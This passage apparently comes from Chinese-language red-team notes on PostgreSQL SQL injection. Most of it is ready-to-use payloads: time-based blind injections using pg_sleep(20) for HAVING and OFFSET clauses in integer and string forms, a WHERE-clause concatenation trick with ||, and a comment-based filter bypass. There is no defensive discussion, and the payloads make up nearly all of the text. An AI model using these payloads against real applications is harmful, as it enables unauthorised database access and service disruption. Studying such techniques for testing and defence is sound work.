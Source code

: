 HAVING
```sql
-- 如果参数是整数：
(COUNT((SELECT pg_sleep(20)))=1); -- -

-- 如果参数是字符串：
t' AND (SELECT COUNT((SELECT pg_sleep(20)))) = 1; -- -
```

OFFSET
```sql
-- 如果参数是整数：
1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -

-- 如果参数是字符串
1'::integer + 1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -
```

**当注入点在 WHERE 时**

可以配合 `||`
```sql
select * from test where username='admin' and password='admin'
select * from test where username='admin' and password=''||(select password);
```

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/39.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/40.png)

### bypass 技巧

**注释**
```sql
SELECT version();
SELECT/**/version();
```
